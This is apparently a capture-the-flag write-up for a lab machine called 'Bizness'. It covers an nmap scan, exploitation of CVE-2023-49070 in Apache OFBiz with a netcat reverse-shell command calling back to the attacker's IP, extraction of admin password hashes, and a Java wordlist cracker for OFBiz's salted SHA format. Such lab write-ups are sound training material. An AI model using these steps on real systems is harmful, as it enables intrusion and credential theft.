



(Following Guided Mode)

# Bizness

## Nmap scan

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-06 03:56 EDT
Nmap scan report for 10.10.11.252
Host is up (0.069s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http       nginx 1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
37923/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.54 seconds
```

## Apache OFBiz

When accessing the website, we find `Powered by Apache OFBiz` on the footer.
> Apache OFBiz is an open source enterprise resource planning system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

We will try to find the version.

By searching online we find that `/webtools/control/main` might include some useful information.\
When we access it we are prompted to login, and at the bottom we find `Powered by Apache OFBiz. Release 18.12`.



But using the given login info doesn't seem to work. Perhaps the default admin password was changed.


Using the release of `OFBiz` used we can try to find any exploits.\
What we find is **CVE-2023-49070**, which allows for remote code execution (RCE) due to the presence of the XML-RPC component, which is no longer maintained.

## Remote Code Execution

We will be using [jakabakos's exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) for this vulnerability.

```bash
$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
$ cd Apache-OFBiz-Authentication-Bypass
```

We can now set up a netcat listener and execute the exploit.

```bash
$ nc -lvp 4444
```
```bash
$ python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.27 4444'
```

However, this way we get a simple shell.\


We can use script as shown by [zweilosec](https://zweilosec.github.io/posts/upgrade-linux-shell/) to upgrade it to interactive shell: `script -qc /bin/bash /dev/null`\


We can also run 
We can also run `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '` to add color and make everything more readable.

Now we can take a look around.

## Looking for flags

We find the user flag at `/home/ofbiz/user.txt`.

In `/opt/ofbiz/framework/security/ofbiz-component.xml` we find this:
```xml
...
    <!-- NOTE: comment this line out to ensure no resetting of passwords -->
    <entity-resource type="data" reader-name="demo" loader="main" location="data/PasswordSecurityDemoData.xml"/>
    ...
</ofbiz-component>
```

```bash
ofbiz@bizness:/opt/ofbiz$ find . -name "PasswordSecurityDemoData.xml" 
find . -name "PasswordSecurityDemoData.xml"
./framework/security/data/PasswordSecurityDemoData.xml

ofbiz@bizness:/opt/ofbiz$ cat ./framework/security/data/PasswordSecurityDemoData.xml
...
<entity-engine-xml>
    <!-- from the securityext component: SecurityExtData.xml -->
    <UserLogin userLoginId="admin" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
    <!-- PBKDF2-SHA1
        <UserLogin userLoginId="flexadmin" currentPassword="{PBKDF2-SHA1}10000$W0JAMTY4ZTNlZjA=$HkbaHQBTdUbfDuL3tJ1eeyqouQ+66qqIj8Axx9vbHPQ="/>
         PBKDF2-SHA256
        <UserLogin userLoginId="flexadmin" currentPassword="{PBKDF2-SHA256}10000$W0JAMTRjMzI4YmE=$vWXmPPjyVlvPjN/7v7heWXRPW5ZBWEQTeYv/vxDT5L8="/>
         PBKDF2-SHA384
        <UserLogin userLoginId="flexadmin" currentPassword="{PBKDF2-SHA384}10000$W0JANWVhMDNjYzE=$H+ouAKild4PCvzFaBxZDbsH2kU1yGJFoCofklWa7YZE="/>
         PBKDF2-SHA512
        <UserLogin userLoginId="flexadmin" currentPassword="{PBKDF2-SHA512}10000$W0JANTAwZGIwZDY=$M1ZJMdOEjE8bo5E7s5qfza6SZ3dVKwIiwZ8LyKL+2ns="/>
    -->
    <UserLogin userLoginId="flexadmin" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
    <UserLogin userLoginId="demoadmin" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
    <UserLogin userLoginId="ltdadmin" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
    <UserLogin userLoginId="ltdadmin1" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
    <UserLogin userLoginId="bizadmin" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"/>
</entity-engine-xml>
```

We found that passwords are getting hashed using `SHA`.

We find online that the default database for ofbiz is `Derby`.\
All derby related files on bizness are in `/opt/ofbiz/runtime/data/derby`.

```bash
ofbiz@bizness:/opt/ofbiz$ grep -r "SHA" /opt/ofbiz/runtime/data/derby
grep -r "SHA" /opt/ofbiz/runtime/data/derby
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c5490.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54a1.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c10.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6650.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c1330.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiz/log/log37.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbizolap/seg0/c10.dat: binary file matches
grep: /opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c10.dat: binary file matches
```

Looking around these files we find the following on `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat`:
```xml
...
<map-Value>
    <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
</map-Value>
...
```

## Getting admin password

We will try to find the hashed password.

The hashed password doesn't seem to be in the correct format for SHA hashing. We'll try to look at the code.\
Looking around a bit, it seems like the code is written in java, so we'll try to limit our search.
```bash
ofbiz@bizness:/opt/ofbiz$ grep -rnw --include \*.java "password" /opt/ofbiz
```

In `/opt/ofbiz/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java` we find:
```java
public static String cryptBytes(String hashType, String salt, byte[] bytes) {
    if (hashType == null) {
        hashType = "SHA";
    }
    if (salt == null) {
        salt = RandomStringUtils.random(new SecureRandom().nextInt(15) + 1, CRYPT_CHAR_SET);
    }
    StringBuilder sb = new StringBuilder();
    sb.append("$").append(hashType).append("$").append(salt).append("$");
    sb.append(getCryptedBytes(hashType, salt, bytes));
    return sb.toString();
}

private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
    try {
        MessageDigest messagedigest = MessageDigest.getInstance(hashType);
        messagedigest.update(salt.getBytes(UtilIO.getUtf8()));
        messagedigest.update(bytes);
        return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
    } catch (NoSuchAlgorithmException e) {
        throw new GeneralRuntimeException("Error while comparing password", e);
    }
}
```

From this we see that in the function `cryptBytes` the password string is saved in the format `$<hash-type>$<salt>$<hashed-password>`and it matches our format! (`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`)

We will create a simple java project in which we try to hash the passwords in a file such as `rockyou.txt` using the above functions and compare them to our password.

### Maven Dependencies:
```xml
<dependencies>
    <dependency>
        <groupId>commons-codec</groupId>
        <artifactId>commons-codec</artifactId>
        <version>1.17.0</version>
    </dependency>
</dependencies>
```

### Source code
```java
package com.example;

import java.io.BufferedReader;
import java.io.FileReader;
import java.io.IOException;
import java.io.UnsupportedEncodingException;

import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;

import org.apache.commons.codec.binary.Base64;

public class Main {

    static String hashType = "SHA";
    static String salt = "d";

    public static void main(String[] args) throws Exception {

        if (args.length < 2){
            System.out.println("Provide Hashed password and path to wordlist.");
            return;
        }

        String storedHashedPassword = args[0];
        String testPassFilePath = args[1];

        try (BufferedReader reader = new BufferedReader(new FileReader(testPassFilePath))) {
            String testPass;

            while ((testPass = reader.readLine()) != null) {
                String testPasswordHashed = cryptBytes(hashType,salt,testPass.getBytes("UTF-8"));
                if (testPasswordHashed.equals(storedHashedPassword)) {
                    System.out.println("Password found: "+testPass);
                    break;
                }
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) throws Exception {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) throws Exception {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance(hashType);
            messagedigest.update(salt.getBytes("utf8"));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException | UnsupportedEncodingException e) {
            throw new Exception("Error while comparing password", e);
        }
    }
}
```

### Input data

1. Found password in `$<hash-type>$<salt>$<hashed-password>` format.
2. Full path to wordlist.

Finally, we find the admin password!\
Using it, we can change our user to root, and try to use the password, and get the root flag!
